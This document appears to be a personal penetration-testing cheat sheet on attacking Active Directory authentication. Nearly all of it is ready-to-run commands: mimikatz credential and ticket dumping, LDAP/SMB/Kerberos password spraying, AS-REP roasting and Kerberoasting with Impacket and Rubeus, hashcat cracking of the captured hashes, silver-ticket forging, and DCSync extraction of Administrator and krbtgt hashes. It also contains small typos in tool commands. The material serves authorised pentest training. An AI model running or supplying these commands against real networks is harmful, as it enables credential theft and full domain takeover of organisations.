 # AD authentication attacks

## Cached creds

https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf

With the `SeDebugPrivilege` privilege:
```
PS > .\mimikatz.exe
m $ privelege::debug
m $ sekurlsa::logonpasswords
PS2 > dir \\some_other_host\smb\some_share # in another terminal
m $ sekurlsa::tickets
```

## Authentication attacks

### Passwords

#### Lockout

Lockout threshold for password attacks:
```
net accounts
```

#### LDAP password attack using AD authentication - Principle

LDAP query with user and password authentication:
```
# Building the query
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$pdc = ($domainObj.PdcRoleOwner).Name
$searchString = "LDAP://"
$searchString += $pdc + "/"
$distinguishedName = "DC=$($domainObj.Name.Replace('.',',DC='))"
$searchString += $distinguishedName

# Authentication attack
New-Object System.DirectoryServices.DirectoryEntry($searchString, "someuser", "somepass")
```

#### LDAP spray password attack - "Spray-passwords" script 

Spray-passwords on GitHub: https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
```
PS > powershell -ep bypass
PS > .\Spray-Passwords.ps1 -Pass somepass -Admin
```

#### SMB attacks - crackmapexec

CrackMapExec GitHub: https://github.com/Porchetta-Industries/CrackMapExec

```
kali $ vi userstohack.txt
kali $ crapmapexec smb $targetIp -u userstoattack.txt -p 'somepassword' -d targetorganisation.com --continue-on-success
kali $ crapmapexec smb $targetIpRange.1-254 -u user -p 'password' -d targetorganisation.com --continue-on-success
```
Warning: can lock users out

#### Kerbrute

Kerbrute on GitHub: 
- https://github.com/ropnop/kerbrute
- https://github.com/ropnop/kerbrute/releases

```
PS > type userstohack.txt
PS > .\kerbrute_windows_amd64.exe passwordspray -d targetorg.com .\userstohack.txt 'somepassword'
```

### AS-REQ Roasting

Takes _Do not require Kerberos preauthentication_ to be enabled (disabled by default).

#### From Linux with Impacket-GetNPUsers

Impacket-GetNPUsers on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp -request -outputfile hashes_as-rep_to_roast.txt organisation.com/any_user
$ hashcat --help | grep -i 'kerberos' # look for "AS-REP" in this case
$ hashcat -m 18200 hashes_as-rep_to_roast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

```
c:\path\to\rubeus.exe asreproast /nowrap
```
and `hashcat` back again:
```
hashcat -m 18200 hashes_as-rep_to_roast_from_windows.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### From Windows with Rubeus

Rubeus on GitHub: https://github.com/GhostPack/Rubeus
```
PS > .\Rubeus.exe asreproast /nowrap
```
Copy the hash and crack it on Kali with `hashcat`:
```
sudo hashcat -m 18200 hashes_retrieved_with_Rubeus_on_Windows /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Users to AS-REQ roast

To get only the users with option `Do not require Kerberos preauthentication` enabled on Linux:
```
$ impacket-GetNPUsers -dc-ip $TargetDcIp # No options
```
and on Windows:
```
Import-Module c:\path\to\powerview.ps1
Get-DomainUser -PreauthNotRequired
```

### Kerberoasting - TGS-REP on SPN

#### With Impacket-GetUserSPNs

Impacket-GetUserSPNs on GitHub: https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
```
$ impacket-GetUserSPNs -request -dc-ip $TargetDomainControlerIp organisation.com/someuser
$ hashcat --help | grep -i kerberos
$ hashcat -m 13100 spn_hash_to_hack.txt /usr/share/wordlist/rockyou.txt -r myrulefile.rule --force
```

#### With Rubeus

```
PS c:\path\to\rubeus> .\Rubeus.exe kerberoast /outfile:spn_hash_to_hack.txt
```
and crack it with `hashcat`. With `GenericWrite` or `GenericAll` permissions on another AD user: 
- https://adsecurity.org/?p=3658 (to avoid)
- https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)

### Silver ticket

Takes _Privileged Account Certificate_ (PAC) not to be enabled (usual): https://adsecurity.org/?p=2011
```
PS > iwr -UseDefaultCredentials http://internalwebsite # access denied
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords # get the webserver's service NTLM hash
PS > whoami /user # get the domain SID: S-1-5-21-xtake-ytake-ztake-donottaketheuserRID
mimikatz # kerberos::golden /sid:domainsid /domain:organisation.com /ptt /target:internalwebsite.organisation.com /service:http /rc4:ntlmhash /user:anyuser
mimikatz # exit
PS > klist
PS > iwr -UseDefaultCredentials http://internalwebsite # access granted
```

### Domain Controler Sync

Needs:
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered

which are provided by:
- Domain Admins
- Enterprise Admins
- Administrators (NOT local admins)

DCSync attack details: https://adsecurity.org/?p=2398#MimikatzDCSync \
Impacket-Secretsdump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py

#### From Linux

```
impacket-secretsdump -just-dc-user someuser organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
hashcat -m 1000 ntlm_hash_from_impacket-secretsdump /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

impacket-secretsdump -just-dc-user Administrator organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
impacket-secretsdump -just-dc-user krbtgt organisation.com/someadminuser:"adminpassword"@domaincontrolerIp
```

#### From Windows

From a local admin account (for example):
```
PS > c:\path\to\mimikatz.exe
mimikatz # lsadump::dcsync /user:mydomainname\target_username
$ hashcat -m 1000 ntlm_hash_from_mimikatz /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

mimikatz # lsadump::dcsync /user:mydomainname\Administrator
mimikatz # lsadump::dcsync /user:mydomainname\krbtgt
```



